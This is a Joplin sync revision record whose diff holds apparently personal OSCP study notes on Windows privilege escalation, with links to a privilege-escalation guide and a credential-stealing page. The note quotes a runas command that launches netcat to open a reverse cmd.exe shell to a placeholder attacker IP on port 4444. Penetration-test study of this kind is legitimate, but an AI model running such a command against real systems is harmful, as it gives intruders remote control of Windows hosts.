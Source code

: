 id: 5a0aded8e38a49a6817e7ecd3fc4a012
parent_id: 
item_type: 1
item_id: 5bfb19ef1e2242868742d0f0a4c656be
item_updated_time: 1646016696914
title_diff: "[{\"diffs\":[[1,\"36e8b1abdf2f4ed19ec5e03306ca9155\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"Windows Techniques\\\r\\\n\\\r\\\nhttps://blog.adithyanak.com/oscp-preparation-guide/windows-privilege-escalation\\\r\\\n\\\r\\\n![7f7a6116ba9c0686eeb15869ed9dfb23.png](:/105b5332a73648dcbab924774c4f8ffb)\\\r\\\n\\\r\\\n> C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\\runas.exe /env /noprofile /user: <username><password>\\\"c:\\\\\\\\users\\\\\\\\Public\\\\\\\\\nc.exe -nc &lt;attacker-ip&gt; 4444 -e cmd.exe\\\"</password></username>\\\r\\\n\\\r\\\n![f0052db1453f6b0ee5cc49e29b99bd9b.png](:/ac24ce9a2c934c51b443151e67046c2b)\\\r\\\n\\\r\\\nhttps://book.hacktricks.xyz/windows/stealing-credentials\\\r\\\n\\\r\\\nid: 36e8b1abdf2f4ed19ec5e03306ca9155\\\r\\\nparent_id: 986d75298ac542b38075779da7f69186\\\r\\\ncreated_time: 2022-01-28T08:37:34.258Z\\\r\\\nupdated_time: 2022-01-31T04:42:50.615Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 0.00000000\\\r\\\nlongitude: 0.00000000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 0\\\r\\\nuser_created_time: 2022-01-28T08:37:34.258Z\\\r\\\nuser_updated_time: 2022-01-31T04:42:50.615Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1138}]"
metadata_diff: {"new":{"id":"5bfb19ef1e2242868742d0f0a4c656be","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016696907,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.600Z
created_time: 2022-02-28T02:54:22.600Z
type_: 13
